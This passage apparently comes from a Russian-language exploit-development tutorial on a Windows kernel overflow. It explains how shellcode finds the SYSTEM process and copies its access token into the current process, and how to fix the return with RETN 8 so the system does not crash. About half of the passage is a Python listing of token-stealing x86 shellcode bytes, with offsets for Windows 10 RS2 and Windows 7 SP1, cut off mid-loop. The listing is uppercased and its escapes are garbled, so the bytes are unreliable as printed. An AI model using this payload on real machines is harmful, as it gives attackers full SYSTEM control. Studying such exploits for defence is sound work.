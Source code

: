 Как только шеллкод покидает **ЦИКЛ**, потому что он обнаружил процесс **SYSTEM**, в **EAX** остается его **EPROCESS.** Шеллкод читает токен по смещению **0xFC** и копирует его в текущий процесс **EPROCESS** который был в **ECX**.  
  
Затем остается вернется правильно к процессу, без сбоев, что непросто. Токен готов.  
  
Одна из техник заключается в том, чтобы трассировать программу, когда она проходит через ту же функцию, но без переполнения, и продолжить, когда она возвращается из каждой функции, и смотреть на стек, пытаясь увидеть, что при переполнении она возвращается аналогичным образом.  
  
![51.png](https://wasm.in/attachments/51-png.4352/)  
  
Поскольку здесь я возвращаюсь без переполнения, а затем здесь есть **RETN8**, и стек находится в этой позиции, поэтому программа вернется сюда.  
  
![52.png](https://wasm.in/attachments/52-png.4353/)   
  
Поэтому я пытаюсь вернуться в то же место, где стек находится в том же положении, когда есть переполнение, и я должен использовать **RETN8**.  
  
Вы видите, что когда я вхожу, чтобы выполнить свой шеллкод, стек довольно похож.  
  
![53.png](https://wasm.in/attachments/53-png.4354/)  
  
Прибываю в **POPAD.**  
  
![54.png](https://wasm.in/attachments/54-png.4355/)  
  
Со стеком всё хорошо. Поэтому я должен удалить инструкцию **ADD** **ESP**, **0C**, которая использовалась для другого эксплойта, удалить этот **PUSH** и изменить **RET** на **RETN** **8**, и всё должно заработать.  
  
Это можно сделать так.  
  
SHELLCODE = STRUCT.PACK\(**"&lt;I"**, 0X90909090\)  
  
\# --\[ SETUP\]  
SHELLCODE += **"\X60"** \# PUSHAD  
SHELLCODE += **"\X64\XA1\X24\X01\X00\X00"** \# MOV EAX, FS:\[KTHREAD\_OFFSET\]  
  
\# I HAVE TO DO IT LIKE THIS BECAUSE WINDOWS IS A LITTLE SPECIAL  
\# THIS JUST GETS THE EPROCESS. WINDOWS 7 IS 0X50, NOW ITS 0X80.  
SHELLCODE += **"\X8D\X40\X70"** \# LEA EAX, \[EAX+0X70\];  
SHELLCODE += **"\X8B\X40\X10"** \# MOV EAX, \[EAX+0X10\];  
SHELLCODE += **"\X89\XC1"** \# MOV ECX, EAX \(CURRENT \_EPROCESS STRUCTURE\)  
  
\# WIN 10 RS2 X86 TOKEN\_OFFSET = 0XFC  
\# WIN 07 SP1 X86 TOKEN\_OFFSET = 0XF8  
SHELLCODE += **"\X8B\X98\XFC\X00\X00\X00"** \# MOV EBX, \[EAX + TOKEN\_OFFSET\]  
  
\# --\[ COPY SYSTEM PID TOKEN\]  
SHELLCODE += **"\XBA\X04\X00\X00\X00"** \# MOV EDX, 4 \(SYSTEM PID\)  
SHELLCODE += **"\X8B\X80\XB8\X00\X00\X00"** \# MOV EAX, \[EAX + FLINK\_OFFSET\]  
SHELLCODE += **"\X2D\XB8\X00\X00\X00"** \# SUB EAX, FLINK\_OFFSET   
SHELLCODE += **"\X39\X90\XB4\X00\X00\X00"** \# CMP \[EAX + PID\_OFFSET\], EDX   
SHELLCODE += **"\X75\XED"** \# JNZ   
  
